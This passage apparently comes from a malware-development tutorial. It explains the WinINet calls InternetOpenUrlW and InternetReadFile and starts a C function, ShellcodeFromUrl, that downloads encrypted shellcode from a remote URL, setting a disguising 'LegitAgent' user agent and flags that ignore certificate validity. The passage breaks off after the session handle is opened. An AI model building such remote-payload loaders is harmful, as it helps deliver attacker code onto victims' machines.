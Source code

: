 The first one is the handle to the internet session, the second one is the URL that contains the shellcode, the third one specifies the request headers to be sent to the HTTP server, the fourth one specifies the size of the headers if any additional header is required, the fifth one **dwFlags** contains different flags that can be provided like **INTERNET_FLAG_HYPERLINK** and **INTERNET_FLAG_IGNORE_CERT_DATE_INVALID**, which forces the session to reload in case of no expiry time and no last modified time and ignores the SSL/TLS validity of the URL. The last one contains a pointer to a variable if any data needs to be passed into the server.

### [InternetReadFile](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile)
The third one is the InternetReadFile function that reads the data from a handle provided by **InternetOpenUrlW**.            
```c
BOOL InternetReadFile(
  [in]  HINTERNET hFile,
  [out] LPVOID    lpBuffer,
  [in]  DWORD     dwNumberOfBytesToRead,
  [out] LPDWORD   lpdwNumberOfBytesRead
);
```
It consists of two input parameters and two output parameters in which the first one is the handle to the URL, the second parameter provides a pointer to the buffer that receives the data. The third one requires the number of bytes to be read, and the fourth one provides a pointer to the actual number of bytes read.

Since now we have an overview of how to receive the data from the URL, it's time for the implementation. Let's create a function called **ShellcodeFromUrl** which provides a pointer to the received data and the size of the encrypted data. Below are the parameters initialized in the function.

- ` HINTERNET hInternet;` - Handle to the internet session text data.
- `HINTERNET hInternetShellcode;` - Handle to the URL connection
- `DWORD dwBytesRead = NULL;` - Number of bytes read during each iteration.
- `SIZE_T sSize = NULL;` - Total number of accumulated bytes downloaded.
 - `PBYTE pBytes = NULL;` - Pointer to the final dynamically allocated buffer that will contain the shellcode.
 - `PBYTE pTmpBuffer = NULL;` - Temporary 1KB (1024 bytes) buffer to read chunks from the internet.     

```c
BOOL ShellcodeFromUrl(PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {

    HINTERNET hInternet;
    HINTERNET hInternetShellcode;
    DWORD dwBytesRead = NULL;
    SIZE_T sSize = NULL;
    PBYTE pBytes = NULL;	
    PBYTE pTmpBuffer = NULL;
```

Next step is to create a handle to the internet session.        
```c
    hInternet = InternetOpenW(L"LegitAgent", NULL, NULL, NULL, NULL);
    if (hInternet == FALSE) {
        printf("InternetOpenW Failed with error code: %d \n", GetLastError());
        return -1;
    }
```
